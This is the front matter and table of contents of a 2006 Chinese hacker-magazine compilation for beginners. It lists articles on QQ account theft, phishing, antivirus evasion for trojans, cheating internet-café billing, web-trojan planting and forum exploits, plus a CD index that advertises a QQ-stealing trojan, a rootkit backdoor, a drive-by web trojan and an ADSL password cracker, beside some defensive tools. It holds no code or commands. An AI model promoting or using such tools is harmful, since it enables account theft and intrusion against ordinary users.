# 黑客X档案合订本2006年（下）第一部分

---

### 《黑客X档案》畅销系列丛书：菜鸟 Hacker 进化最佳教程

### 2006《黑客X档案》合订本下载

## 随含“坏木马”赠送全新图书《菜鸟入门秘籍》？

- 黑客文化
- 黑客术语
- 菜鸟疑惑
- 安全防护
- 菜鸟进化

### 经典漏洞回顾

- 动网2006漏洞简单利用
- 最新漏洞动态——还有 Phpwind
- 抢先体验微软最新漏洞 MS06-007
- 菜鸟新招，MS06-040 远程溢出新体验
- 今年流行玩挂马，挂马就用 MS06-014
- Discuz! 末日危机——Discuz! 4.0/4.1/5.0 漏洞来了！
- Windows 菜鸟最新入侵大法，从 IIS 写权限下手
- 许愿，让 Discuz! 的新漏洞快来吧！
- 新云网站管理系统任意文件下载漏洞

### 主题乐园

- DLL 木马攻防战
- 让杀毒软件变“白痴”——菜鸟的木马免杀大法
- 让黑客兵器出自菜鸟之手
- Google Hack——让 Google 成为菜鸟最强大的武器
- 黑客的另一片天堂——无线网络大攻防
- 千金之后动网再找虫——动网又现头像跨站漏洞

### X 菜鸟学堂

- 菜鸟的无敌攻击 DoS（续）
- 被菜鸟遗忘的绝招之密码也疯狂（上）
- 菜鸟遗忘的绝招之密码也疯狂（续）
- 脚本扫盲班（一）初识 ASP
- 脚本扫盲班（二）——小小菜鸟架论坛
- 千金之后动网再找虫——动网又现头像跨站漏洞

### 菜鸟总动员

- 突破 QQ 安全中心，我用 WORD
- VNC 肉鸡，今天你“吃”了吗？
- “黑客”败类的骗术揭密
- WinXP 下的肉鸡宴
- 假亦真时真亦假——特殊 ID 也入侵
- 菜鸟级免杀灰鸽子 2006





## 《黑客X档案》2006 合订本（下卷）




## 《黑客X档案》2006年合订本（下卷）

- 出版：黑龙江文化电子音像出版社
- 出品人：孙胜利
- 主编：杨东柱
- 编辑部主任：赵强政
- 编辑部：sagi / 呆呆虫 / 虫虫 / 职业欠钱 / 石头 / 黄色潜水艇 / 笨牛牛
- 光盘部：丛林
- 设计：谭海梅
- 排版：Bifrost
- 发行部主任：赵琦
- 发行经理：邵瑞
- E-Mail：hackerxfiles@263.net
- 邮购查询电话：(010)88560080
- 发行联系电话：(010)88561472
- 邮编：100037
- 定价：28元（光盘+手册）

> 声明：刊中所载文字及图片，版权所有，未经许可，不得转载。文章内容仅代表作者观点，与本刊立场无关。投稿于本刊的文章，均视为作者已授权本刊合作媒体的使用。我们支付的稿费已包含了授权相关费用。如有相关问题，请作者及时与我们联系。

## CONTENT

### 菜鸟专栏

- 2006.07 菜鸟基础知识补习 …… 009
- 2006.08 菜鸟的无敌攻击 DoS（续） …… 011
- 2006.09 菜鸟遗忘的绝招之密码也疯狂 …… 013
- 2006.10 菜鸟遗忘的绝招之密码也疯狂（续） …… 016
- 2006.11 脚本扫盲班（一）初识 ASP …… 019
- 2006.12 脚本扫盲班（二）小小菜鸟架论坛 …… 023

### QQ宝典

- 2006.07 QQ 骗术大揭秘 …… 026
- 2006.07 利用代理超人轻松玩转国外 QQ …… 027
- 2006.07 OZONE 人气，我们来洗刷刷 …… 029
- 2006.07 盗我 QQ，门也没有！ …… 030
- 2006.07 QQ 也玩世界杯 …… 031
- 2006.07 小菜的 QQ 独门秘笈 …… 032
- 2006.08 QQ 也玩虚拟摄像头 …… 033
- 2006.08 和我一起玩转 QQ 木马 …… 034
- 2006.08 网络钓鱼，QQ 号大丰收 …… 035
- 2006.09 菜鸟的 QQ 四小招 …… 037
- 2006.09 QQ 中的另类群发 …… 039
- 2006.09 盗不走的糖糖 …… 040
- 2006.09 QQ 秀居然也可以免费拿 …… 041
- 2006.09 QQ 网站经典视频一网全扫 …… 042
- 2006.09 QQ 会员、三钻免费大派发 …… 043
- 2006.10 菜鸟兵器——QQ 大杀器 …… 044
- 2006.10 用 WORM 漏洞突破 QQ 安全中心 …… 045
- 2006.10 暗键游戏之 QQ 复仇 …… 046
- 2006.10 让 QQ 头像出自菜鸟之手 …… 047
- 2006.10 QQ 登录，你真的敢用“糖糖”吗？ …… 049
- 2006.11 MSN 聊天加密双子星 …… 049
- 2006.11 QQ 狙击之魔法表情大炸弹 …… 050
- 2006.11 QQ 新功能助我找出同网吧中的 MM …… 051
- 2006.11 QQ 空间没有人气可不行 …… 052
- 2006.11 把 QQ 反骚扰进行到底 …… 054
- 2006.12 菜鸟的 QQ 反击战 …… 055
- 2006.12 利用 QQ 空间玩“拒绝服务攻击” …… 056
- 2006.12 抛弃客户端，WEB 网页来聊天 …… 057
- 2006.12 我的特权——申请 QQ 地带走后门 …… 060

## 网吧黑客

- 2006.07 快乐网吧行 …… 061
- 2006.07 一键搞定所有的网吧管理系统 …… 062
- 2006.07 一切为了带宽 …… 063
- 2006.07 看菜菜如何网吧加钱 …… 066
- 2006.08 老师你能奈我何？ …… 067
- 2006.08 菜鸟菜招突破磁盘隐藏 …… 069
- 2006.08 突破 Pubwin4 锁屏又一法 …… 070
- 2006.08 突破 HR2004 型机房管理系统的封锁 …… 071
- 2006.09 菜鸟和网管的较量 …… 072
- 2006.09 双剑合璧斗网吧 …… 073
- 2006.09 Rootkit 助你练就网吧隐身术 …… 074
- 2006.09 突破——冲出代理服务器的禁锢 …… 075
- 2006.10 与网管软件的一次较量 …… 077
- 2006.10 网吧电影，我也要免费看 …… 078
- 2006.10 破解磁盘限制我用磁盘管理 …… 078
- 2006.10 让网吧破解不再重复 …… 079
- 2006.11 让“时间”来破解万象 2006 …… 080
- 2006.11 花不来的一元钱——当 cracker 来到网吧 …… 083
- 2006.11 “老猫”管理系统的崩溃 …… 085
- 2006.12 破解网吧限制也有新玩法 …… 087
- 2006.12 冰刃 VS 万象 2004 …… 089
- 2006.12 详解破解万象 2004 …… 089
- 2006.12 看菜鸟来破解学校机房收费系统 …… 090

## 网游江湖

- 2006.07 堵住网游木马的后门 …… 091
- 2006.08 看菜鸟如何玩“传奇”私服 …… 092
- 2006.09 看菜鸟如何“批发”魔兽账号密码 …… 093
- 2006.10 把别人的跑跑卡丁车都变成牛牛车 …… 095
- 2006.11 看黑客如何血洗魔兽军团 …… 096
- 2006.12 游戏留言也“钓鱼” …… 098

### 傻瓜黑客

- 2006.07 傻瓜黑客的 HackGP 工具箱 …… 099
- 2006.07 干渡助你隐藏 IP …… 100
- 2006.07 穿上代理马甲的脚本 …… 101
- 2006.07 拒绝下载者横行 …… 102
- 2006.07 巧妙获得收费图铃 …… 103
- 2006.07 傻瓜化配置黑客守卫者 …… 105
- 2006.07 挖掘宝典 …… 106
- 2006.07 亦正亦邪的雪客图 …… 107
- 2006.07 通过宽带路由器来入侵内网 …… 109
- 2006.07 巧用同学录玩网络钓鱼 …… 111
- 2006.07 WinConnect ServerXP——终极再现 XP 远程多用户登录 …… 114
- 2006.07 菜鸟玩转局域网 …… 115
- 2006.08 七步跟我建立隐藏帐号 …… 117
- 2006.08 “Unlocker”轻松删除顽固文件 …… 119
- 2006.08 Radmin 也用生成器 …… 120
- 2006.08 让微软替你守秘密 …… 121
- 2006.08 SSM 之超级内窥 …… 121
- 2006.08 让菜鸟轻轻松松打补丁 …… 122
- 2006.08 将隐藏进行到底 …… 124
- 2006.08 抓出局域网里的代理 …… 125
- 2006.08 小工具破解文件夹加密大师 …… 126
- 2006.08 简简单单内网入侵 …… 128
- 2006.08 WFP 如此不起一点 …… 129
- 2006.08 VStart 也有黑客工具箱 …… 131
- 2006.08 IIS 中 FTP 虚拟目录的妙用 …… 131
- 2006.08 备份 SAM 文件的一点点其它用法 …… 132
- 2006.09 “入侵”微软，菜鸟也会！——揭露入侵微软的骗局 …… 133
- 2006.09 原来组策略启动木马竟如此隐蔽！ …… 135
- 2006.09 菜鸟的双刃剑——AIO …… 135
- 2006.09 FTP 文件搜索引擎在黑客中的运用 …… 138
- 2006.09 将密码清除到底 …… 139
- 2006.09 Google 快讯黑客宴 …… 140
- 2006.09 捆绑 VS 反捆绑 …… 140
- 2006.09 巧修改注册表，让你的系统个性又安全 …… 142
- 2006.09 突破 COOKIES 限制下载音乐 …… 143
- 2006.09 我的 D 盘，听我的！ …… 144
- 2006.09 将机器变成暗器 …… 145
- 2006.10 流氓软件的发现——被忽略的程序自启动 …… 146
- 2006.10 WINDOWS 系统下玩 LINUX 命令 …… 147
- 2006.10 一万台肉鸡是这样炼成的 …… 148
- 2006.10 金装精霸 DDOS 攻击工具 …… 149
- 2006.10 对付杀毒后遗症的灵丹妙药 …… 151
- 2006.10 将 RAR 自解压欺骗玩到底 …… 152
- 2006.10 教你正确读出动网论坛的后台口令 …… 153
- 2006.10 U 盘也玩 EFS 加密 …… 154
- 2006.10 利用 DNS 欺骗在局域网中挂马 …… 155
- 2006.10 电影网站的下载攻防 …… 156
- 2006.10 迅雷专区也挂马 …… 158
- 2006.11 VNC 肉鸡，今天你“吃”了吗？ …… 159
- 2006.11 WinXP 下的肉鸡宴 …… 160
- 2006.11 “黑客”败类的骗术揭密 …… 161
- 2006.11 让菜鸟都成为肉鸡的猎手 …… 163
- 2006.11 手工为文件夹“隐身” …… 166
- 2006.11 替换正在运行的文件全攻略 …… 166
- 2006.11 用 txt 文档查壳 …… 167
- 2006.11 偷窥，在此止步 …… 168
- 2006.11 批处理之防守篇 …… 169
- 2006.11 另类破解数字连接密码 …… 170
- 2006.11 玩转 Net User 高级技巧 …… 172
- 2006.11 局域网隐身又一法 …… 172
- 2006.12 假亦真时真亦假——特殊字符的妙用 …… 173
- 2006.12 挖掘鸿哥战传奇私服 …… 174
- 2006.12 免费的就是菜鸟喜欢的 …… 175
- 2006.12 伪装我们的 CMD 窗口 …… 177
- 2006.12 小心，MDB 也闹“鬼” …… 178
- 2006.12 简简单单，制作超级隐藏的网站 …… 178
- 2006.12 寻找代理不再愁，The Privacy Guard 来解忧 …… 179
- 2006.12 玩转命令提示符 …… 181
- 2006.12 Win2003 远程终端超过最大连接数的意外收获 …… 182
- 2006.12 Windows 2003 菜鸟后门全攻略 …… 184

### 攻击记

- 2006.07 木马 Erazer Lite 使用手记 …… 187
- 2006.07 突破限制——实战后门 DIY 技术 …… 189
- 2006.07 用 Themida 蒙混 NOD32 …… 190
- 2006.07 完美的网马定位是这样做的！ …… 192
- 2006.08 JXWebSverr——另类的远程控制 …… 193
- 2006.08 由 AngelShell 浅谈后门伪装 …… 194
- 2006.08 网络中的蔓葛 poison ivy …… 195
- 2006.08 为木马开道的净路先锋 …… 196
- 2006.09 “宝马”又出新款，“上兴”新体验 …… 197
- 2006.09 迷你木马——网络弃桔 …… 199
- 2006.09 治 ScriptGive V2006 新版的后遗症 …… 201
- 2006.09 像刺刀一样扎入敌人心脏——iamabird 多功能入侵型鼠标移植工具 …… 202
- 2006.10 免杀上兴远程控制 …… 204
- 2006.10 菜鸟捅马 Assasin …… 205
- 2006.10 打造不死的 ASP 木马 …… 206
- 2006.10 无所不能下载者 …… 207
- 2006.11 意大利的木马黑手党——spyone …… 208
- 2006.11 菜鸟学习木马的好帮手——凝瑞远程控制 …… 210
- 2006.11 对杀毒软件、防火墙一击必杀的 TechKiller …… 211
- 2006.11 菜鸟接龙之木马免杀 …… 212
- 2006.11 让电子书成为养马的好场所 …… 213
- 2006.12 另类的 Active Desktop 后门 …… 215
- 2006.12 菜鸟级免杀极品鸽 2006 …… 216
- 2006.12 免杀新技术—NTPacker 壳的改造 …… 217
- 2006.12 PcShare2006 也免杀 …… 218

## 毒经

- 2006.07 干掉 UDP 木马 …… 221
- 2006.08 菜鸟的病毒战争 …… 222
- 2006.08 让菜鸟来认识 rose 病毒 …… 223
- 2006.09 新品种 QQ 病毒——遇害过程实录 …… 225
- 2006.09 真假美猴王之 wmiprvse.exe …… 226
- 2006.10 菜鸟大战 U 盘病毒 …… 227
- 2006.10 病毒，你走吧！ …… 228
- 2006.11 小小木马，菜鸟不怕 …… 231
- 2006.11 流氓乎，病毒乎——变种 Roogoo 病毒查杀记 …… 232
- 2006.12 腾讯 QQ 也“流感” …… 234
- 2006.12 看菜鸟来拯救杀毒软件——大战橙色8月病毒 …… 235

## 黑客人物面对面

- 2006.07 网络世界里的“大屠杀2600”黑客组织 …… 237
- 2006.08 入侵检测任重道远——记 Snort 作者 Marty Roesch …… 238
- 2006.09 “黑客”之路 …… 239
- 2006.10 柘木自雕——柘木与入侵腾讯 QQ 的故事 …… 242
- 2006.12 黑客圈？娱乐圈？——入侵腾讯事件幕中有幕 …… 246

### 灰色轨迹

- 2006.07 真爱值得等待 …… 249
- 2006.08 网络烟花 …… 250
- 2006.09 空间已满，爱连接错误 …… 252
- 2006.10 轮回 …… 253
- 2006.11 战争后的痕迹 …… 255
- 2006.12 没有结局的入侵 …… 256

### 众人的战争

- 2006.07 和我一起去看 Channel[V] …… 258
- 2006.07 Cookies 敏感区，我进动网后台 …… 261
- 2006.07 挑战 BT 虚拟主机 …… 262
- 2006.07 BBSGOOD 也有漏洞 …… 266
- 2006.07 挂马，别忘了还有 PHPWind 论坛 …… 267
- 2006.07 “安全天使”也入侵 …… 269
- 2006.07 Oblog 也注入——仅仅是疏忽吗？ …… 272
- 2006.08 目录浏览与 Google Hacking …… 274
- 2006.08 Google 跨站也疯狂 …… 276
- 2006.08 动网 img 标签所带来的危害 …… 277
- 2006.08 BBSXP6 另类危害——跨用户删除漏洞 …… 279
- 2006.08 利用雪驰上传漏洞轻松拿下六盘水信息港 …… 281
- 2006.08 巧妙跨站，实现战果最大化——轻取网域影视系统 sp2 版 …… 282
- 2006.08 千金之后动网再找虫——动网又现头像跨站漏洞 …… 283
- 2006.08 渗透百色汽车职业技术学院 …… 286
- 2006.09 菜鸟新招，MS06-040 远程溢出新体验 …… 289
- 2006.09 今年流行玩挂马，挂马就用 MS06-014 …… 291
- 2006.09 直捣黄龙之 EMI 古代 …… 294
- 2006.09 入侵 Windows 2003 之嗅探显奇效 …… 297
- 2006.09 惊爆百度、TOM、21CN 系列搜索引擎漏洞 …… 299
- 2006.09 国内邮箱跨站之行 …… 301
- 2006.09 SimpleBlog 的漏洞分析及利用 …… 305
- 2006.10 挑战安全焦点的入侵 …… 307
- 2006.10 Discuz! 末日危机——Discuz! 4.0/4.1/5.0 漏洞来了！ …… 309
- 2006.10 远程文件包含，今天你玩了吗？ …… 311
- 2006.10 菜鸟来渗透北京化工大学 …… 313
- 2006.10 解开得到密码却无法登录后台之谜 …… 315
- 2006.10 ASPX 与 ASP 携手开创 Serv-U 本地提权新纪元 …… 316
- 2006.10 再续百度、TOM、21CN 系列搜索引擎漏洞 …… 320
- 2006.11 许愿，让 Discuz! 的新漏洞快来吧！ …… 323
- 2006.11 Windows 菜鸟最新入侵大法，从 IIS 写权限下手 …… 324
- 2006.11 安全——网趣购物的一根软肋 …… 325
- 2006.11 安全天使不安全——Sablog-X 漏洞利用 …… 327
- 2006.11 菜鸟 VStart 跨站，肉鸡翻潮来 …… 329
- 2006.11 手机也来玩入侵 …… 330
- 2006.11 反击骗子网站的一次入侵 …… 332
- 2006.11 免费图书免费享之 php 注入 …… 333
- 2006.12 动易 2006 SP4 最新漏洞的利用 …… 335
- 2006.12 拿社会工程学拿下票堡 …… 337
- 2006.12 新云网站管理系统下载任意文件漏洞 …… 338
- 2006.12 AutoRun.inf 提权重现江湖 …… 340
- 2006.12 Phpwind 最新漏洞利用 …… 342
- 2006.12 再取巅峰权限——记四川理工学院安全检测 II …… 343
- 2006.12 菜鸟三式轻取 webshell …… 345
- 2006.12 抢先体验微软最新漏洞 MS06-067 …… 348

### 安全第一

- 2006.07 你上网的“脚印”擦干净了吗？ …… 350
- 2006.07 菜鸟的网页攻防线 …… 351
- 2006.07 让我们的 FTP 服务器免疫 Sniffer …… 353
- 2006.08 巧妙删除系统中的克隆帐号 …… 355

## CONTENT

- 2006.08 珠联璧合——快速清除恶意程序 …… 356
- 2006.08 为了安全，我用“影子系统” …… 359
- 2006.08 BT下载与压缩包——木马的新花招 …… 360
- 2006.09 流氓软件的克星——360安全卫士 …… 363
- 2006.09 黑客江湖之勤惑传说 …… 365
- 2006.10 我常用的几款安全工具 …… 366
- 2006.10 局域网共享要安全 …… 368
- 2006.10 杀马第一，名不虚传 …… 370
- 2006.11 菜鸟不得不注意的IE安全 …… 373
- 2006.11 教你几招对付网络江湖中的“四大恶人” …… 375
- 2006.11 服务器安全之菜菜篇 …… 378
- 2006.12 BT系统配置密 …… 379
- 2006.12 DLL插入终结者 …… 381
- 2006.12 让菜鸟远离网页木马 …… 382

### 黑客漏洞版

- 2006.07 来自攻击者的“欺骗” …… 384
- 2006.07 堵住MSSQL数据库的备份漏洞 …… 385
- 2006.08 从本地防护到网络入侵全攻略 …… 387
- 2006.08 利用ARP欺骗突破防火墙 …… 391
- 2006.09 URL欺骗初探 …… 392
- 2006.10 BBSxp 7.0 Beta2最新漏洞解析 …… 394
- 2006.11 左手IE，右手IE——深秋的IE漏洞双响炮 …… 396
- 2006.11 菜鸟解说Discuz!漏洞 …… 399
- 2006.12 教菜鸟玩远程文件包含漏洞 …… 401
- 2006.12 寻找“隐藏”的搜索型注入点 …… 404
- 2006.12 揭开黑防网站变成“大力水手”的秘密 …… 406

### 黑客乐园

- 2006.07 我的地盘，我拒绝——教你破解FlashFXP …… 408
- 2006.07 菜鸟来另类玩壳优化大师 …… 408
- 2006.08 让加密大师的秘密无处可藏 …… 410
- 2006.09 TIT反汇编静态分析基础教程之行云流水破ExeScope 6.5 …… 411
- 2006.10 从零开始学破解之（一）——初识破解 …… 413
- 2006.10 TIT破解步步高——算法完美破解初级篇 …… 416
- 2006.11 从零开始学破解之（二）——初探暴力破解 …… 419
- 2006.11 无痕迹破解QQ键盘加密锁 …… 422
- 2006.12 从零开始学破解之（三）功能限制初探之去除NAG …… 424
- 2006.12 菜鸟也能打造属于自己的花指令 …… 426

### 黑客编程版

- 2006.07 打造自己的黑兵器——键盘记录器 …… 429
- 2006.07 VB编程之TELNET后门的初步实现 …… 430
- 2006.08 利用VB编写QQ综合信息窃取器 …… 431
- 2006.08 详解XMLHTTP控件的应用 …… 432
- 2006.08 菜鸟也做短信炸弹 …… 434
- 2006.09 把别人的网址“编”成自己的 …… 435
- 2006.10 贴吧也群发——教你制作百度贴吧群发器 …… 436
- 2006.10 轻轻一点，网马“编”出来 …… 439
- 2006.11 教菜鸟制作木马服务端生成器 …… 439
- 2006.11 让每一个菜鸟都有自己的花指令 …… 441
- 2006.12 从C到VC的跨越——U盘木盗的简单实现 …… 443
- 2006.12 教菜鸟使用汇编、VC、VB制作下载者 …… 444
- 2006.12 解决文件关联问题 …… 447

### 王道乐园

- 2006.07 DLL木马攻防战 …… 448
- 2006.08 黑客的另一片天堂——无线网络大攻防 …… 456
- 2006.09 让杀毒软件变“白痴”——菜鸟的木马免杀大法 …… 461
- 2006.10 让黑客兵器出自菜鸟之手 …… 465
- 2006.11 为了安全，请时刻准备着！——江民密保测试小记 …… 469
- 2006.12 Google Hack——让Google成为菜鸟最强大的武器 …… 475

### 光盘索引

#### 瑞风虚拟摄像头

一款免费的管理摄像头的应用软件，且提供虚拟摄像头功能，可以方便地播放多种媒体文件以模拟摄像头。

#### 奇幻变脸秀

你可以如一个专业的动画特技师般轻松完成效果惊人的图像和影片创作。奇幻变脸秀支持多种常见图形文件格式，可以输出单帧图像、图片序列、AVI、动画GIF、Flash、网页、EXE执行程序等格式。

#### Unlocker

最好的顽固软件删除工具。

#### System Safety Monitor

是一个具备即时监控功能的木马拦阻软件。它会监控电脑中重要的系统登录机制，保护登录档不被篡改。

#### SpyNet

SpyNet Sniffer 是个极好的网络监听工具，包含 telnet、POP、ICQ、HTTP、login 等等。

#### 瑞星听诊器

为配合瑞星杀毒软件使用的辅助工具，该工具具有诊断、提取、IE重置三个实用功能。

### PowerShadow影子系统

是一款很奇特的小软件，当你安装它并重新启动电脑以后，电脑会类似安装了双系统一样，多出一个启动项。选择影子系统后，重启系统一切测试将不复存在。

### Discuz最新漏洞利用工具

针对有漏洞的 Discuz 论坛，可将任意用户的密码 MD5 值破解出来。

#### 跑跑卡丁车外挂

可在游戏中无限加速并且对道具免疫。

### 大杀器全能QQ币版

QQ大杀器是基于国内最流行的聊天软件QQ基础上的盗号、截取QQ各种信息、QQ强制视频、下马、网站宣传于一体的木马程序，包含QQ盗号、蠕虫功能、QQ消息尾巴、下载者、文件绑定伪装、IE首页锁定、添加网页到收藏夹、后台访问网站等功能。

### Longhorn任务管理器

Longhorn 所带的任务管理器比 XP/2003 中的版本多了“打开所在目录”“映像路径”“命令行”等实用功能。

#### 模拟精灵

模拟精灵是一款小巧的迷你开发工具，不会编程也可轻松制作软件，释放双手让鼠标键盘自动工作。

#### Ewido Security Suite Plus

是一款网络安全防护软件，在电脑上已经安装的其他安全软件基础上，补充为一个完整的安全系统，能实时监测整个系统运行，监测内存，内核自保护，在线升级等。

### 藏珑远程控制

本程序能够通过 Internet 网、局域网进行计算机的远程监控管理，操作直观简便，功能强大。

#### 江民密保

保护网上密码的安全软件，可有效保护网上银行、网络游戏、支付平台、网上证券交易等账号、密码。

### 精锐网吧破解辅助工具5.6

用于防止木马程序盗取QQ密码，登录时可侦测常见QQ木马并进行防护，能较大程度避免QQ密码被盗。

### 魔兽争霸III破解PN码版

本软件采用 Hook 截取技术，可截取多类账号、密码与输入信息。

#### regoweb

这个软件通过 ActiveX，可以把普通的软件转化为可以在主页直接执行的在线版本。

#### VMProtect

新一代的软件保护程序，在虚拟机中完成保护代码部分，便于保护关键代码与资源。

#### restorator2006

一个简单易用的中文化工具程序，资源编辑与可视操作兼具，支持多种资源类型编辑。

#### The Privacy Guard

帮助你隐藏IP地址，在网络上匿名浏览，并保护访问隐私。

### P2P终结者

P2P终结者是针对网络P2P滥用问题开发的系统软件，可控制局域网内P2P下载行为，只需一机安装即可控制全网。

#### 千度互连

解决电信网互连速度的一个软件。

#### 黑客守卫者

内核级后门软件，可隐藏文件、进程、系统服务、驱动、端口及注册表项，并控制被隐藏进程。

#### 木马辅助查找器

启动项管理、流量查看、端口信息、进程管理、文件运行监控、文件损毁检查等。

### 老虎2006过全系统网页木马音乐版

2006年最新过全系统网页木马，支持98/NT/2000/XP(SP2)/2003等。

#### Q-ZONE Tool

刷QZONE人气的小工具。

### 挖掘鸡3.2

用于搜索以某种缺省形态存在的网页路径，这类页面通过搜索引擎较难找到。

### 源码家园ASP站长安全助手

本程序由ASP编写，旨在帮助管理员维护ASP网站安全。

### 东凌ADSL密码终结者

多线程远程扫描，搜索使用默认账号密码的ADSL主机，并自动破解拨号上网账号和密码。


## 菜鸟基础知识篇


